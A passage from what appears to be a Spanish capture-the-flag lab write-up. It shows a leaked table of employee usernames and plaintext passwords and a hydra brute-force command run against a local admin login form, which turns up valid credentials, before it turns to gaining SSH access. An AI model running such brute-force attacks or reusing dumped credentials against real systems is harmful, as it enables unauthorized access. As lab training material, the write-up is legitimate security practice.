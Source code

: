 ```xlsx
|41|León Mora Guzmán|broma@example.com|Mantenimiento|Supervisor|león.mora.guzmán|)FmIJfth2T|+34846 505 074|Castellón|2020-09-10|
|42|Leonardo Feliu Navarro|juan-luiscarbonell@example.net|Transporte|Supervisor|leonardo.feliu.navarro|%mBN52xke8|+34883610616|Madrid|2023-05-29|
|43|Onofre Riba Catalán|cortestania@example.net|Inventario|Operador|onofre.riba.catalán|uL(2ANGr*^|+34 846 683 910|Pontevedra|2021-11-06|
|44|Asunción Modesta Sandoval Pou|iclemente@example.org|Transporte|Administrativo|asunción.modesta.sandoval.pou|Ff8eBEzsV+|+34 901 475 715|Salamanca|2024-10-27|
|45|Juanita Raya Ferrero|primitivapalma@example.net|Almacén|Auxiliar|juanita.raya.ferrero|(+F1#sHnTm|+34 803219321|Las Palmas|2024-08-09|
|46|Olga Llorens Campillo|calixtapalau@example.org|Compras|Auxiliar|olga.llorens.campillo|89#gG2%z$7|+34821 62 72 97|Alicante|2024-04-23|
|47|Amarilis Pelayo Leiva|pepitonogues@example.com|Mantenimiento|Jefe de Área|amarilis.pelayo.leiva|$76Jl6talZ|+34 734 120 043|Palencia|2023-12-15|
|48|Mónica de Alfaro|pbastida@example.org|Transporte|Jefe de Área|mónica.de.alfaro|g3ZSZ3Ay^I|+34 944 01 14 65|Lleida|2022-10-09|
|49|Albina Santamaría Crespo|bolanosfito@example.org|Inventario|Supervisor|albina.santamaría.crespo|+1AzD)3rqk|+34 914674480|Girona|2024-10-27|
|50|Jacinta Domingo-Olivera|camilosolera@example.net|Inventario|Auxiliar|jacinta.domingo-olivera|n@7CGluvBK|+34949473198|Guadalajara|2025-01-20|
```

Ahora usaremos estas credenciales para intentar loguearnos en el panel de administracion: tanto los nombres de usuarios y las contrasenas las almacenamos en archivos:
```bash
 passwords.txt   users.txt
```

Antes de realizar el ataque de fuerza bruta, a nuestro archivo **users.txt** como contiene los nombres separados necesitamos unirlos para prueba el nombre completo:
Estando dentro del editor: En mi caso **NeoVim** aplicaremos la siguiente **regex** para unir los nombres por **.**
```bash
:%s/ /./g
```

Ahora lanzamos el diccionario:
```bash
hydra -L users.txt -P passwords.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:Credenciales incorrectas." -V -f 
```

Tenemos credenciales validas:
```bash
Username: prudencia.de.ferrera - Password: )4UJM)JGab
```

Logramos ganar acceso al panel administrativo

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Aqui tenemos informacion valiosa que nos sirve para ganar acceso por **ssh**
